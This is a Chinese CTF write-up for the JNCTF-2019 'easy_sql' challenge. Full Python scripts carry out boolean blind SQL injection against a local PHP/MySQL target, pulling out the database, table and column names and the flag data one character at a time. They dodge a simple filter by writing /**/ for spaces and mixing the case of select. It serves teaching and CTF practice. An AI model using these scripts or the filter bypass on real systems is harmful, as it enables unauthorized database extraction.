

# JNCTF-2019 : 

## **【原理】**

SQL盲注

## **【目的】**

学会盲注的原理，简单waf的绕过

## **【环境】**

Apache+php+mysql

## **【工具】**

python或其他编程语言

## **【步骤】**

简单测试一下发现是盲注，而且过滤了空格和select和sleep，于是采用布尔盲注，/**/代替空格，大小写绕过select即可

拖数据库名

```
import requests
import re
dblength=0
#爆破数据库名长度
while True:
    url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or length(database())='+str(dblength)+'%23'
    url=url.replace(' ','/**/').replace('select',"SElect")
    text=requests.get(url).text
    if 'No' in text:
        dblength=dblength+1
    else:
        break
print("数据库长度为%d"%dblength)

#爆破数据库名
dbname=''
for i in range(dblength):
        for j in range(32,127):
            url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or ascii(substr(database(),'+str(i+1)+',1))='+str(j)+' %23'
            url=url.replace(' ','/**/').replace('select',"SElect")
            text=requests.get(url).text
            if 'No' in text:
                continue
            else:
                dbname=dbname+chr(j)
                break
print("数据库名为%s"%dbname)

```

拖表名

```
import requests
import re
#爆破表数量
tablenum=0
while True:
    url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or (select count(table_name) from information_schema.tables where table_schema=database())='+str(tablenum)+'%23'
    url=url.replace(' ','/**/').replace('select',"SElect")
    print(url)
    text=requests.get(url).text
    if 'No' in text:
        tablenum=tablenum+1
    else:
        break
print("表数量为%d"%tablenum)

#爆破表长度
tablelength=[]
for i in range(tablenum):
    temlength=0
    while True:
        url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or length(substr((select table_name from information_schema.tables where table_schema=database() limit '+str(i)+',1),1))='+str(temlength)+' %23'
        url=url.replace(' ','/**/').replace('select',"SElect")
        print(url)
        text=requests.get(url).text
        if 'No' in text:
            temlength=temlength+1
            continue
        else:
            tablelength.append(temlength)
            break
print("表的名称长度数组为：",end='%s\n'%tablelength)

#爆破表名
tablename=[]
for i in range(tablenum):
    temname=''
    for j in range(tablelength[i]):
        for k in range(32,127):
            url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or ascii(substr((select table_name from information_schema.tables where table_schema=database() limit '+str(i)+',1),'+str(j+1)+',1))='+str(k)+' %23'
            url=url.replace(' ','/**/').replace('select',"SElect")
            print(url)
            text=requests.get(url).text
            if 'No' in text:
                continue
            else:
                temname=temname+chr(k)
                break
    tablename.append(temname)
print("表名数组为：",end='%s\n'%tablename)
```

拖字符

```
import requests
import re
#爆破secret表的字段数量
columnnum=0
while True:
    url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or (select count(column_name) from information_schema.columns where table_schema=database() and table_name=%27secret%27)='+str(columnnum)+'%23'
    url=url.replace(' ','/**/').replace('select',"SElect")
    print(url)
    text=requests.get(url).text
    if 'No' in text:
        columnnum=columnnum+1
    else:
        break
print("secret字段数量:%d"%columnnum)

#爆破secret表字段长度
columnlength=[]
for i in range(columnnum):
    temlength=0
    while True:
        url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or length(substr((select column_name from information_schema.columns where table_schema=database() and table_name=%27secret%27 limit '+str(i)+',1),1))='+str(temlength)+' %23'
        url=url.replace(' ','/**/').replace('select',"SElect")
        print(url)
        text=requests.get(url).text
        if 'No' in text:
            temlength=temlength+1
            continue
        else:
            columnlength.append(temlength)
            break
print("secret表字段长度数组:",end='%s\n'%columnlength)

#爆破secret表字段名
columnname=[]
for i in range(columnnum):
    temname=''
    for j in range(columnlength[i]):
        for k in range(32,127):
            url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=%27secret%27 limit '+str(i)+',1),'+str(j+1)+',1))='+str(k)+' %23'
            url=url.replace(' ','/**/').replace('select',"SElect")
            print(url)
            text=requests.get(url).text
            if 'No' in text:
                continue
            else:
                temname=temname+chr(k)
                break
    columnname.append(temname)
print("secret字段数组为：",end='%s\n'%columnname)
```

拖数据

```
import requests
#爆破secret表的数据数量
datanum=0
while True:
    url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or (select count(*) from secret)='+str(datanum)+'%23'
    url=url.replace(' ','/**/').replace('select',"SElect")
    text=requests.get(url).text
    if 'No' in text:
        datanum=datanum+1
    else:
        break
print("secret表数据数量为%d"%datanum)

#爆破所有数据长度
datalength=[]
columnnum=1
columnname=['flag']
for i in range(datanum):        #每组数据
    temlength=[]
    for j in range(columnnum):  #每个字段
        tem=0
        while True:   
            url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or length(substr((select '+columnname[j]+' from secret limit '+str(i)+',1),1))='+str(tem)+' %23'
            url=url.replace(' ','/**/').replace('select',"SElect")
            print(url)
            text=requests.get(url).text
            if 'No' in text:
                tem=tem+1
                continue
            else:
                break
        temlength.append(tem)
    datalength.append(temlength)
print("secret数据长度数组为：",end='%s\n'%datalength)

#爆破数据
data=[]
for i in range(datanum):        #每组数据
    temdata=[]
    for j in range(columnnum):  #每个字段
        tem=''
        for  pos in range(datalength[i][j]):    #每个位置
            for k in range(32,127):                                        
                url='http://127.0.0.1/JNCTF-2019/JNCTF-2019/Web/easy_sql/deploy/src/index.php?id=-1%27 or ascii(substr((select '+columnname[j]+' from secret limit '+ str(i)+',1),'+str(pos+1)+',1))='+str(k)+' %23'
                url=url.replace(' ','/**/').replace('select',"SElect")
                print(url)
                text=requests.get(url).text
                if 'No' in text:
                    continue
                else:
                    tem=tem+chr(k)
                    break
        temdata.append(tem)
    data.append(temdata)
    print(temdata)      
print("secret数据数组为：",end='%s\n'%data)
```

得到flag



## **【总结】**

考察对sql注入中盲注的理解以及脚本编程自动化解题能力